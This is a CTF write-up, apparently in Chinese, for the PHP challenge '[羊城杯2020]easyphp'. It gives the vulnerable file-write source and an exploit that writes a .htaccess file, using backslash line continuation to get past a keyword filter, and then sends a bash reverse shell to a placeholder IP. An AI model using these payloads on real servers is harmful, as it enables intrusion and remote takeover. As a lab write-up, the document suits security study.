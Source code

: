 # [羊城杯2020]easyphp
![](<./img/Pasted image 20230226142322.png>)

```php
 <?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?> 
```

可以写入文件，虽然会删除`index.php`之外的文件，但是不访问`index.php`就能一直留着

```
/?filename=info.php&content=<?php phpinfo();?>
```

```
/info.php
```

![](<./img/Pasted image 20230226142803.png>)

并没有被解析

尝试直接往`index.php`写入

```
/?filename=index.php&content=<?php phpinfo();?>
```

莫得用

尝试往`.htaccess`写入，同时利用`.htaccess`的反斜杠续行绕过关键词检测

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+phpinfo()%3B%3F%3E%0D%0A%23%5C
```

![](<./img/Pasted image 20230226151014.png>)

同理可弹shell

```
/?filename=.htaccess&content=php_value auto_prepend_fi\
le .htaccess
#<?php system('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');?>
#\
```

url编码

```
/?filename=.htaccess&content=php_value+auto_prepend_fi%5C%0D%0Ale+.htaccess%0D%0A%23%3C%3Fphp+system(%27bash+%2Dc+%22bash+%2Di+%3E%26+%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F2333+0%3E%261%22%27)%3B%3F%3E%0D%0A%23%5C
```

![](<./img/Pasted image 20230226154124.png>)
